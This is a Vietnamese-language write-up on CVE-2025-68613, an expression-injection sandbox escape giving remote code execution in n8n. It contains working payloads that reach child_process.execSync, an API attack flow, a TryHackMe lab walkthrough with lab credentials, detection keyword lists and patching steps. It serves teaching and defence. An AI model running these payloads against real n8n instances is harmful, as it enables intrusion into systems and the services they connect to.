





# n8n

[CVE](../README.md)

CVE ID       : CVE-2025-68613
Ngày công bố : 19/12/2025
Phần mềm     : n8n
Loại lỗ hổng : Expression Injection → Remote Code Execution (CWE-94)
Tác động     : Remote Code Execution (RCE)
CVSS Score   : 9.9 / 10 - CRITICAL
Nguồn        : <https://nvd.nist.gov/vuln/detail/CVE-2025-68613>
Lab          : <https://tryhackme.com/room/n8ncve202568613>

---

## n8n là gì?

- **n8n** là một nền tảng tự động hóa quy trình công việc mã nguồn mở, cho phép người dùng **kết nối các ứng dụng và dịch vụ với nhau** mà không cần viết nhiều code.
- Người dùng xây dựng workflow dưới dạng đồ thị các **node** — mỗi node là một hành động cụ thể: gọi API, xử lý dữ liệu, gửi email, post lên Slack... Các node được nối với nhau tạo thành luồng tự động hóa hoàn chỉnh.

- n8n được triển khai theo ba hình thức chính:
  - **Self-hosted** — tổ chức tự deploy tại chỗ hoặc trên cloud riêng, toàn quyền kiểm soát dữ liệu.
  - **n8n.cloud** — dịch vụ SaaS được quản lý với hạ tầng dùng chung.
  - **Internal automation tool** — chạy trong mạng nội bộ doanh nghiệp để tự động hóa các quy trình giữa hệ thống nội bộ và bên ngoài.

> n8n phổ biến trong môi trường DevOps và SecOps — tích hợp các công cụ bảo mật, gửi alert, tự động hóa incident response. Điều đó có nghĩa là một instance n8n bị compromise thường có quyền truy cập rất sâu vào hạ tầng xung quanh.

- Mã CVE này ảnh hưởng đến các phiên bản:
  - n8n **0.211.0 đến 1.120.3** (đã được khắc phục trong 1.120.4, 1.121.1 và 1.122.0)

---

## Lỗ hổng nằm ở đâu?

n8n cho phép người dùng nhúng **expression** vào trong workflow — các đoạn code nhỏ để tính toán giá trị động: lấy output từ node trước, định dạng ngày giờ, xây dựng URL theo điều kiện. Cú pháp `{{ ... }}`, quen thuộc với bất kỳ ai từng dùng template engine.

Vấn đề nằm ở **expression evaluation engine** — bộ phận tính toán các expression đó lúc workflow chạy. Kẻ tấn công đã được xác thực có thể craft một expression độc hại, khiến engine không chỉ tính giá trị mà còn **thực thi lệnh hệ thống tùy ý** với quyền của tiến trình n8n.

---

## Điều kiện để khai thác

Lỗ hổng yêu cầu xác thực — kẻ tấn công cần có tài khoản n8n với quyền tạo hoặc chỉnh sửa workflow. Đây là quyền mặc định của hầu hết user role trong n8n.

Nghe có vẻ giảm nhẹ, nhưng thực tế không phải vậy. Nhiều instance n8n để mở self-registration hoặc dùng credentials mặc định chưa đổi. Kẻ tấn công có thể đã compromise một tài khoản thấp quyền từ trước và dùng lỗ hổng này để leo lên quyền OS. Và trong môi trường doanh nghiệp, n8n thường chạy với service account có quyền rộng — một khi RCE xảy ra, toàn bộ hạ tầng mà n8n đang kết nối đều có nguy cơ theo.

---

## Expression engine hoạt động như thế nào?

n8n cho phép nhúng expression vào hầu hết trường trong workflow — URL, header, body, điều kiện rẽ nhánh... Cú pháp là `{{ ... }}`:

```
URL: https://api.example.com/users/{{ $json["userId"] }}
Body: Xin chào {{ $json["name"].toUpperCase() }}
Condition: {{ $json["amount"] > 1000 }}
```

Phía sau đó, n8n có một **expression evaluation engine** riêng. Khi workflow chạy, engine này nhận chuỗi template, trích ra phần trong `{{ }}`, và đánh giá nó như JavaScript trong một môi trường sandbox.

Sandbox đóng vai trò như một "hộp cát" — code trong `{{ }}` chỉ được phép truy cập các biến n8n cung cấp (`$json`, `$node`, `$workflow`...) và các hàm tiện ích, không được phép gọi hàm hệ thống, không được import module, không được truy cập `process` hay `require`.

**Vấn đề:** Sandbox đó bị bypass. Kẻ tấn công tìm ra cách leo thang từ phạm vi được phép ra ngoài hộp cát, đến tầng Node.js runtime thực sự bên dưới.

---

## Cơ chế bypass — Expression Injection

JavaScript có một đặc tính gọi là **prototype chain** — mọi object đều có thuộc tính ẩn kết nối lên các object cha, tạo thành chuỗi leo dần đến các global như `Function`, `Object`. Từ `Function.constructor`, ta có thể gọi `Function('return process')()` để lấy được đối tượng `process` của Node.js — cổng vào để gọi bất kỳ lệnh hệ thống nào.

Trong trường hợp này, expression engine không chặn đủ chặt các con đường leo thang đó. Một expression độc hại được cấu trúc để đi qua prototype chain, lấy được `process`, sau đó dùng `child_process` để chạy lệnh hệ thống:

```javascript
{{ constructor.constructor('return process')().mainModule.require('child_process').execSync('id').toString() }}
```

Payload trên đi theo từng bước:

- `constructor` — thuộc tính có trên mọi object, trỏ đến hàm tạo của nó
- `.constructor` — leo thêm một cấp, đến `Function`
- `('return process')()` — tạo và gọi một hàm mới trả về đối tượng `process`
- `.mainModule.require('child_process')` — load module shell của Node.js
- `.execSync('id')` — chạy lệnh `id` trên hệ thống, chờ kết quả

Kết quả là bất kỳ lệnh nào cũng có thể thay vào `execSync(...)` — đọc file, gửi dữ liệu ra ngoài, tạo backdoor, hay tiếp tục di chuyển ngang trong hạ tầng.

### Tại sao payload IIFE lại bypass được sandbox?

Payload thực tế được dùng trong lab:

```javascript
{{ (function(){ return this.process.mainModule.require('child_process').execSync('id').toString() })() }}
```

Hãy hình dung sandbox của n8n như một **bảo vệ đứng cửa, kiểm tra danh sách đen theo tên**. Nếu thấy chữ `process`, `require`, hay `global` xuất hiện trong expression, bảo vệ chặn ngay. Thử viết thẳng:

```javascript
{{ process.mainModule.require('child_process').execSync('id') }}
```

Kết quả: `process is not defined` — bảo vệ nhận ra tên, từ chối.

**Vấn đề:** bảo vệ chỉ kiểm tra tên, không kiểm tra ý nghĩa.

Trong JavaScript, từ khóa `this` bên trong một function thông thường (không phải arrow function, không gắn với object nào) tự động trỏ về **môi trường toàn cục** — nơi chứa mọi thứ của Node.js, bao gồm cả `process`. Nói cách khác, `this.process` và `process` là **một thứ**, nhưng bảo vệ chỉ chặn được cách gọi thứ hai.

Đây chính xác là thứ payload khai thác:

```javascript
(function() {
    return this.process  // bảo vệ không thấy chữ "process" đứng một mình
                         // nhưng this.process vẫn trỏ đúng vào process của Node.js
})()
```

Bảo vệ đọc code, không thấy từ cấm nào, cho qua. JavaScript chạy, `this` tự tìm về môi trường toàn cục, lấy ra `process`, rồi từ đó gọi `child_process.execSync()` để thực thi lệnh hệ thống.

**Bản vá sửa điểm này như thế nào?** Bật **strict mode** trong expression evaluator. Khi strict mode được bật, `this` bên trong function không còn tự trỏ về global nữa — nó trả về `undefined`. Payload cố truy cập `undefined.process` và crash ngay lập tức, không làm được gì thêm.

---

## Phân tích cách khai thác

n8n cung cấp REST API đầy đủ để quản lý workflow. Khai thác CVE-2025-68613 thông qua API không cần tương tác trực tiếp với giao diện web.

### Luồng tấn công tổng quan

- **Bước 1 - Đăng nhập:** Gửi `POST /rest/login` để nhận session cookie hoặc API key.
- **Bước 2 - Tạo workflow độc hại:** Gửi `POST /rest/workflows` với một workflow chứa node `Set` hoặc `Function`, trong đó giá trị của một trường được nhúng payload expression.
- **Bước 3 - Kích hoạt workflow:** Gửi `POST /rest/workflows/{id}/activate` hoặc trigger thủ công qua `POST /rest/workflows/run`.
- **Bước 4 - Thu kết quả:** Output của expression (kết quả lệnh hệ thống) xuất hiện trong response body hoặc execution log của workflow.

### Tại sao qua API mà không qua UI?

Vì validation phía UI (trình duyệt) chỉ là cosmetic — server không từ chối payload độc hại nếu nó hợp lệ về mặt cú pháp JSON. Expression engine đánh giá bất kỳ thứ gì server nhận được, không phân biệt nguồn gốc là UI hay API call trực tiếp.

### Vì sao CVSS lên đến 9.9?

Thông thường authenticated RCE là 8.x–9.x. Lý do n8n đạt 9.9:

- **Scope: Changed** — khai thác ảnh hưởng ra ngoài phạm vi n8n, vào hệ thống OS và các dịch vụ khác mà n8n kết nối.
- **Integrity + Availability + Confidentiality: Complete** — kẻ tấn công có thể đọc, ghi, xóa mọi thứ mà tiến trình n8n có quyền truy cập.
- n8n thường được tích hợp với nhiều dịch vụ khác — database, Slack, email, hệ thống nội bộ — nên một credential đơn giản có thể dẫn đến compromise toàn bộ chuỗi.

---

## Khai thác qua giao diện web

> Lab: TryHackMe — n8n instance tại `http://10.49.171.128:5678`
> Credentials: `tryhackme@thm.local` / `Try12345!`

Không cần viết script hay gọi API trực tiếp — toàn bộ khai thác có thể thực hiện hoàn toàn qua giao diện web của n8n. Đây là điểm làm cho lỗ hổng này đặc biệt nguy hiểm: workflow editor trông giống một công cụ bình thường, nhưng thực tế là bàn phím để gõ lệnh vào hệ thống.

### Bước 1 — Tạo workflow mới

Sau khi đăng nhập, n8n hiển thị màn hình khởi đầu. Nhấn **"Bắt đầu lại từ đầu"** hoặc **"Thêm bước đầu tiên"** để vào workflow editor trống.



### Bước 2 — Thêm node tiếp theo

Khi vào workflow editor, n8n đã tự thêm sẵn node **"When clicking 'Execute workflow'"** (Manual Trigger) làm điểm bắt đầu. Nhấn vào dấu **+** hoặc placeholder node bên cạnh để mở panel tìm kiếm, thêm bước tiếp theo.



### Bước 3 — Thêm node "Edit Fields (Set)"

Nhấn dấu **+** sau Manual Trigger, tìm kiếm `Edit Fields` (hoặc `Set`), chọn **"Chỉnh sửa trường (Thiết lập)"**. Đây là node dùng để gán giá trị vào các field — nhưng khi giá trị đó là một expression, n8n sẽ đánh giá nó trước khi gán.



### Bước 4 — Nhúng payload vào trường giá trị

Trong node Edit Fields, nhấn **"Thêm trường"**. Điền:

- **Name:** `result`
- **Value:** dán payload vào đây

```javascript
{{ (function(){ return this.process.mainModule.require('child_process').execSync('id').toString() })() }}
```

Payload này wrap toàn bộ exploit trong một IIFE (Immediately Invoked Function Expression) — `this` bên trong function trỏ đến global scope của engine, từ đó leo thang qua `process.mainModule.require` để gọi `child_process`.

### Bước 5 — Thực thi và xem kết quả

Nhấn **"Thực thi bước"**. n8n đánh giá expression, gọi lệnh `id` trên hệ thống, và trả output ngay trong panel bên phải:

```
uid=1000(node) gid=1000(node) groups=1000(node)
```



Thay `id` bằng bất kỳ lệnh nào — `whoami`, `cat /etc/passwd`, `ls /home`, hay đọc file flag:

```javascript
{{ (function(){ return this.process.mainModule.require('child_process').execSync('cat flag.txt').toString() })() }}
```


---

## Phát hiện

### Nhật ký ứng dụng n8n

n8n ghi log execution của mọi workflow. Tìm kiếm trong execution log (`~/.n8n/logs/` hoặc database bảng `execution_entity`):

- Workflow chứa expression dài bất thường trong trường giá trị — đặc biệt các chuỗi chứa `constructor`, `require`, `process`, `execSync`, `exec`, `spawn`.
- Workflow được tạo mới và kích hoạt trong cùng một phiên ngắn, đặc biệt ngoài giờ làm việc.
- Execution log chứa output trông như kết quả lệnh shell (`uid=`, `root`, danh sách thư mục, IP address...).

### Nhật ký hệ thống

Ở tầng OS, khi payload thực thi:

- **Process creation** — tiến trình n8n (Node.js) spawn tiến trình con bất ngờ: `sh`, `bash`, `cmd.exe`, `powershell.exe`, `curl`, `wget`, `nc`. Đây là indicator mạnh — n8n bình thường không spawn shell.
- **Network connections** — kết nối ra ngoài đến IP lạ từ tiến trình Node.js, đặc biệt nếu không khớp với bất kỳ service nào trong workflow hợp lệ.
- **File creation** — file mới xuất hiện trong thư mục n8n hoặc `/tmp`, đặc biệt là file `.sh`, `.py`, hoặc binary không rõ nguồn gốc.

---

## Khắc phục

### Kiểm tra ngay

Xác nhận phiên bản n8n đang chạy:

```bash
n8n --version
# hoặc
npm list n8n | grep n8n
```

Nếu phiên bản nằm trong khoảng **0.211.0 đến 1.120.3**, hệ thống đang bị ảnh hưởng.

### Nâng cấp phiên bản

| Phiên bản hiện tại | Nâng cấp lên |
|---|---|
| < 1.120.4 | **1.120.4** (patch chính) |
| bất kỳ | **1.121.1** hoặc **1.122.0** trở lên (khuyến nghị) |

```bash
# npm
npm update -g n8n

# Docker
docker pull n8nio/n8n:latest
docker compose up -d
```

### Biện pháp giảm thiểu tạm thời

Nếu chưa thể nâng cấp ngay:

- **Tắt self-registration** — không cho phép tài khoản mới đăng ký tự do.
- **Kiểm soát quyền tạo workflow** — chỉ cấp cho người dùng thực sự cần thiết.
- **Mạng nội bộ** — đảm bảo instance n8n không expose ra internet nếu không cần thiết.
- **Audit workflow hiện có** — rà soát tất cả workflow đang tồn tại, tìm expression chứa `constructor`, `require`, hoặc `process`.

---

## Bài học rút ra

CVE-2025-68613 là ví dụ điển hình của **sandbox escape trong môi trường JavaScript** — một lớp lỗ hổng đã xuất hiện nhiều lần trong lịch sử (vm2, node-serialize, serialize-javascript...) nhưng vẫn tiếp tục được phát hiện trong các công cụ mới.

Điều đáng chú ý là lỗ hổng này không nằm ở logic xử lý dữ liệu, không nằm ở tầng authentication — nó nằm ngay trong tính năng cốt lõi mà n8n quảng bá là "linh hoạt và mạnh mẽ". Tính năng expression cho phép người dùng làm được nhiều thứ, nhưng đồng thời tạo ra bề mặt tấn công rộng nếu sandbox không được thiết kế chặt chẽ.

Nếu bạn đang vận hành n8n, hãy kiểm tra ngay:

- Phiên bản có nằm trong khoảng 0.211.0 – 1.120.3 không.
- Self-registration có đang bật không.
- Ai đang có quyền tạo và chỉnh sửa workflow.

---

*Nguồn tham khảo: [NVD - CVE-2025-68613](https://nvd.nist.gov/vuln/detail/CVE-2025-68613) | [n8n Security Releases](https://github.com/n8n-io/n8n/releases)*
